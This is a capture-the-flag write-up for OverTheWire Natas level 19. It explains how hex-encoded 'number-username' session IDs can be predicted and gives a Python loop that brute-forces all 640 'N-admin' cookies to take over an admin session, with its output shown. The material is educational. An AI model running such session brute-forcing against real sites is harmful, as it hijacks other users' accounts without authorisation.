








# Natas — Level 19 → 20

**Category:** OverTheWire / Natas  
**Difficulty:** Hard  
**Date:** 2026-08-26

## Goal

Same idea as level 18, with a warning that the previous trick won't work as-is:

    This page uses mostly the same code as the previous level, but session IDs are no longer sequential...
    Please login with your admin account to retrieve credentials for natas20.

## Solution

The source showed `createID()` now builds something more structured than a bare number:

    function createID($user) {
        global $maxid;
        $idnum = rand(1, $maxid);
        $idstr = "$idnum-$user";
        return bin2hex($idstr);
    }

And `isValidID()` enforces the shape of that encoded value before trusting it as a session:

    function isValidID($id) {
        // must be lowercase
        if($id != strtolower($id)) {
            return false;
        }
        // must decode
        $decoded = myhex2bin($id);
        // must contain a number and a username
        if(preg_match('/^(?P<id>\d+)-(?P<name>\w+)$/', $decoded, $matches)) {
            return true;
        }
        return false;
    }

`my_session_start()` still trusts any cookie that passes `isValidID()`, session ID or not:

    function my_session_start() {
        if(array_key_exists("PHPSESSID", $_COOKIE) and isValidID($_COOKIE["PHPSESSID"])) {
            if(!session_start()) {
                ...

And the login flow is otherwise unchanged from level 18 — the admin flag still comes from the disabled check:

    if(array_key_exists("username", $_REQUEST) && array_key_exists("password", $_REQUEST)) {
        session_id(createID($_REQUEST["username"]));
        session_start();
        $_SESSION["admin"] = isValidAdminLogin();
        debug("New session started");
        $showform = false;
        print_credentials();
    }

So the session ID isn't a bare sequential number anymore, but its *format* is fully known: `hex("{number 1-640}-{username}")`. Since plenty of other people attempting this exact level log in with the obvious username `admin`, the number is still the only real unknown — so brute-forcing all 640 possible numbers paired with the username `admin` covers the same ground as level 18, just hex-encoded first:

    for i in range(1, 641):
        session_id = f"{i}-admin".encode().hex()
        cookies = {"PHPSESSID": session_id}
        r = requests.get(url, auth=auth, cookies=cookies)

        if "You are an admin" in r.text:
            print(f"\n[+] ADMIN SESSION FOUND!")
            print(f"[+] Number: {i}")
            print(f"[+] PHPSESSID: {session_id}")
            print(r.text)
            break

        print(f"[-] Tried {i}-admin", end="\r")

Ran it:

    [-] Tried 280-admin
    [+] ADMIN SESSION FOUND!
    [+] Number: 281
    [+] PHPSESSID: 3238312d61646d696e

Which returned the next level's credentials:

    You are an admin. The credentials for the next level are:
    Username: natas20
    Password: [REDACTED]

## Result

    Username for natas20: natas20
    Password for natas20: [REDACTED]

## Key Takeaway

Making session IDs non-sequential doesn't help if their *structure* is still fully predictable — knowing the exact format (`number-username`, hex-encoded, number capped at 640) collapses back down to the same small brute-forceable space as level 18. The extra encoding step just meant generating candidate cookies instead of counting straight up.
